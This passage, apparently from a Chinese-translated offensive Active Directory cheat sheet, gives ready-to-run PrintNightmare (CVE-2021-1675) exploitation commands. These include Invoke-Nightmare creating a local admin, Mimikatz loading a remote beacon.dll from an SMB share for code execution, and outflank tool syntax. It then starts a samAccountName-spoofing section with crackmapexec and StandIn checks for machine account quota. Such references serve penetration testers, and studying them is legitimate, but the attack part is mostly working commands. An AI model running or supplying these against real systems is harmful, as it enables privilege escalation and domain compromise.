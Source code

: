     ```powershell
    ## 仅LPE（PS1 + DLL）
    Import-Module .\cve-2021-1675.ps1
    Invoke-Nightmare # 默认情况下在本地管理员组中添加用户`adm1n`/`P@ssw0rd`
    Invoke-Nightmare -DriverName "Dementor" -NewUser "d3m3nt0r" -NewPassword "AzkabanUnleashed123*" 
    Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
    ```

  * [Mimikatz v2.2.0-20210709+](https://github.com/gentilkiwi/mimikatz/releases)

    ```powershell
    ## LPE
    misc::printnightmare /server:DC01 /library:C:\Users\user1\Documents\mimispool.dll
    ## RCE
    misc::printnightmare /server:CASTLE /library:\\10.0.2.12\smb\beacon.dll /authdomain:LAB /authuser:Username /authpassword:Password01 /try:50
    ```

  * [PrintNightmare - @outflanknl](https://github.com/outflanknl/PrintNightmare)

    ```powershell
    PrintNightmare [目标ip或主机名] [有效负载Dll的UNC路径] [可选域] [可选用户名] [可选密码]
    ```

  **调试信息**

  | 错误  | 消息                  | 调试                |
  | ----- | --------------------- | ------------------- |
  | 0x5   | `rpc_s_access_denied` | SMB共享中文件的权限 |
  | 0x525 | `ERROR_NO_SUCH_USER`  | 指定的帐户不存在。  |
  | 0x180 | 未知错误代码          | 共享不是SMB2        |

  

  文档：*## samAccountName欺骗

  在S4U2Self过程中，如果KDC无法找到计算机名，它会尝试在TGT中指定的计算机名后附加'\$'。攻击者可以创建一个新的机器账户，并将其sAMAccountName设置为域控制器的sAMAccountName——不包括'\$'。例如，假设有一个域控制器的sAMAccountName设置为'DC\$'。攻击者随后会创建一个机器账户，其sAMAccountName设置为'DC'。攻击者然后可以为新建的机器账户请求TGT。在KDC发放了TGT之后，攻击者可以将新创建的机器账户重命名为其他名称，例如JOHNS-PC。攻击者接着执行S4U2Self并为自己请求ST，冒充任意用户。由于设置了'sAMAccountName'为'DC'的机器账户已被重命名，KDC会尝试通过附加'$'来查找机器账户，这样就会匹配到域控制器。然后KDC会为域控制器发放一个有效的ST。

  **要求**

  * MachineAccountQuota > 0

  **检查是否被利用**

  0. 检查账户的MachineAccountQuota

  ```powershell
  crackmapexec ldap 10.10.10.10 -u username -p 'Password123' -d 'domain.local' --kdcHost 10.10.10.10 -M MAQ
  StandIn.exe --object ms-DS-MachineAccountQuota=*
  ```
